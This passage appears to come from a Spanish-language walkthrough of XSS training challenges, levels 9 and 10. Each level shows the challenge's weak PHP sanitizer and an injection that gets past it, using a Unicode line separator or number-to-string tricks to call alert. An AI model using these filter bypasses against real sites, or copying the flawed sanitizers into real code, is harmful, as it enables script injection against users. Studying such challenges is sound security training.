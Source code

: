 inyección: NL == new Line

```html
[NL]eval('\x61lert(\'l33t\')'
```



### Level 9

```
XSS 9 	You need to break a commented line and bypass classic ways to break a line 	ADVANCED 	Breaking bad, season 2...
```

Función sanitizadora:

```php
function Sanitizer($search){
  // Breaking bad... more stronger
   $search = preg_replace('#[\n\r]#', "", $search);
   
  //No alert no party!  
  $search = preg_replace('#alert#is', NOALERT, $search);

  return <<<RESULT
   No products here.. 
   <!-- todo: debug this -->
   <script>
      //console.debug( $search );
   </script>
RESULT;
}
```

Inyección:

```html
[\u2028]eval('\x61lert(\'l33t\')'
```



### Level 10

```
XSS 10 	A mix of rules block you to create the function alert and also the alternative ways to create strings, but not all.. 	ADVANCED 	The numbers rule the world
```

Función sanitizadora:

```php
function Sanitizer($search){
  // No more string ...
  $search = preg_replace('#[\'"+]#', "", $search);
  // ... no more alert ...  
  $search = preg_replace('#alert#is', NOALERT, $search);
  // ... no no more alternative ways!
  $search = preg_replace('#.source#is', "", $search);
  $search = preg_replace('#.fromCharCode#is', "", $search);

  return 'Your search "<b>' + $search + '</b>" did not match any products';
}
```
Inyección:
```html
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```

